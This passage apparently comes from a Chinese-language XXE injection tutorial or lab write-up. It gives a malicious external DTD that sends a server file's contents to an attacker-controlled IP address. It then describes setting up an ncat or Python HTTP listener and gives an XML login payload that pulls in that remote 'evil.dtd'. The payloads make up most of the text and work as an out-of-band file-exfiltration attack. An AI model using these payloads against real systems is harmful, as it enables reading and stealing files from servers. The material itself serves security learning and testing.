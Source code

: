 ```xml-dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.220.128/?%file;'>">%all;

//<!ENTITY % all ”<!ENTITY &#x25; send SYSTEM ‘http://192.168.220.128/?%file;’>“>%all;
```

![image-20211128185805826](XXE.assets/image-20211128185805826.png)

**方法三：**

使用ncat监听一个端口：

![image-20211128190152105](XXE.assets/image-20211128190152105.png)

也可以用python创建一个建议的http服务。

`python -m SimpleHTTPServer 端口 `

 然后，我们构造payload：

```
<?xml version="1.0"?>
<!DOCTYPE message [    
<!ENTITY remote SYSTEM "http://192.168.220.128/evil.dtd">
]>
<user><username>&remote;</username><password>admin</password></user>
```
